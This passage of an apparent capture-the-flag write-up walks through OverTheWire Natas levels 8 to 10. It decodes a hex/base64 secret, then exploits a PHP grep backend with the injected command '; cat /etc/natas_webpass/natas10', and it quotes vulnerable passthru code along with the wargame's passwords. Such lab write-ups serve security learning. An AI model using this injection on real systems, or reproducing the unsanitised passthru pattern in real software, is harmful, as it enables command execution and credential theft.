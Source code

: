 So it's looking for a string that matches the end result of all these conversions. Instead, we can reverse the process and decrypt the encoded secret to its original value. 

``` plain
# hex to binary 
3d3d516343746d4d6d6c315669563362 becomes 00111101 00111101 01010001 01100011 01000011 01110100 01101101 01001101 01101101 01101100 00110001 01010110 01101001 01010110 00110011 01100010 

# binary to ascii
00111101 00111101 01010001 01100011 01000011 01110100 01101101 01001101 01101101 01101100 00110001 01010110 01101001 01010110 00110011 01100010  becomes ==QcCtmMml1ViV3b

# reverse
==QcCtmMml1ViV3b becomes b3ViV1lmMmtCcQ==

# final base64 decode
b3ViV1lmMmtCcQ== becomes oubWYf2kBq
```

Input <code>oubWYf2kBq</code> in the form and you will get <code>Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl</code>

### Level 9

{% img center /images/overthewire/natas/natas9.png 'natas9' 'natas 9' %}

If you enter something, the backend greps for that word in a dictionary file:

``` php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

So I thought to terminate the first command and chain another one, that would read the password: <code>; cat /etc/natas_webpass/natas10</code>. And the password is output, along with the entire file: <code>nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</code>

### Level 10

{% img center /images/overthewire/natas/natas10.png 'natas10' 'natas 10' %}

This level is the same as the last, except now there is some filtering in place:

``` php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```